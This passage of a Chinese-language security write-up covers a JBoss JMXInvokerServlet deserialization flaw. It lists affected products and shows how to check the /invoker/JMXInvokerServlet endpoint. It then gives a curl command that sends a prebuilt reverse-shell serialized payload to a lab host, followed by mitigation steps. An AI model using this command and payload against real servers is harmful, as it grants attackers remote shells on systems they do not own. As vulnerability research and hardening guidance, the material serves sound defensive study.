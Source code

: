 ```php

SOA Platforn(SOA-P)5.x版本Web Server JWS)3.x版本；

Red Hat OpenShift/XPAAS 3.x版本；

Red Hat Subscription Asset Manager1.3版本
```

### 验证漏洞

```php
/invoker/JMXInvokerServlet
```

![1619489513404](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3d4f9e5eaf55a3891bd779e088a795145055d0d1.png)

如上，说明接口开放，此接口存在反序列化漏洞

### 漏洞利用

直接利用CVE-2017-12149的ReverseShellCommonsCollectionsHashMap.ser发送到`/invoker/JMXInvokerServlet`接口中

```php
curl http://192.168.175.195:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

同样是要开启监听

![1619489712013](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ee3ec612f9a091c6de93639e217e9041fc4deb6b.png)

成功拿到shell

![1619489746945](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8ebe021c50b0f41212253831d00e4152d9242a7b.png)

### 修复建议

1.不需要`http-invoker.sar`组件的用户 可以直接删除掉

路径为：C:\\JBoss6\\jboss-6.1.0.Final\\server\\default\\deploy

![1619578923043](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bda577feeb1b2fe30a81810b252edd630f7b5646.png)

2.添加如下代码至http-invoker.sar下web.xml的`security-constraint`标签中，对http-invoker组件进行访问控制

![1619579149845](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-92be04dc0306b7515fde8bd38e4f006b5a56cbbe.png)

```php
<url-pattern>/*</url-pattern>
```

![1619579472052](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ce34efa5029582713cee454f3fd2b97155aea5a8.png)

JbossMO JMS反序列化漏洞(CVE-2017-7504）
--------------------------------
